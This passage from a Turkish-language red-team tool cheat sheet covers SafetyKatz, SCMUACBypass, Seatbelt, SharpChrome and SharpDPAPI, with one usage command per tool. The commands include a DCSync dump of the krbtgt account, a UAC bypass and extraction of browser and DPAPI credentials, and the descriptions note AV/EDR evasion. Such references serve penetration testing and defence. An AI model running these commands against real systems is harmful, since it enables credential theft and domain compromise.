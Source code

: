 ## 67. SafetyKatz
**Kısa Tanım**: Mimikatz benzeri .NET assembly (yine AV/EDR bypass amaçlı).  
**Usage**:
```powershell
.\SafetyKatz.exe "privilege::debug" "lsadump::dcsync /user:krbtgt"
```
**GitHub**: [https://github.com/GhostPack/SafetyKatz](https://github.com/GhostPack/SafetyKatz)

---

## 68. SCMUACBypass
**Kısa Tanım**: Windows servis kontrolü üzerinden UAC’yi atlamak için mini bypass aracı.  
**Usage**:
```powershell
.\SCMUACBypass.exe
```
**GitHub**: [Araştırınız]

---

## 69. Seatbelt
**Kısa Tanım**: Windows güvenlik ayarları ve konfigürasyonları inceleyen (privesc/güvenlik) audit aracı.  
**Usage**:
```powershell
.\Seatbelt.exe all
```
**GitHub**: [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)

---

## 70. SharpChrome
**Kısa Tanım**: Chrome tarayıcısından password/credential çalabilen .NET aracı.  
**Usage**:
```powershell
.\SharpChrome.exe logins
```
**GitHub**: [https://github.com/GhostPack/SharpChrome](https://github.com/GhostPack/SharpChrome)

---

## 71. SharpDPAPI
**Kısa Tanım**: DPAPI (Data Protection API) objelerini (cred, vault, browser pass) çözen C# aracı.  
**Usage**:
```powershell
.\SharpDPAPI.exe backupkeys
```
**GitHub**: [https://github.com/GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)

---
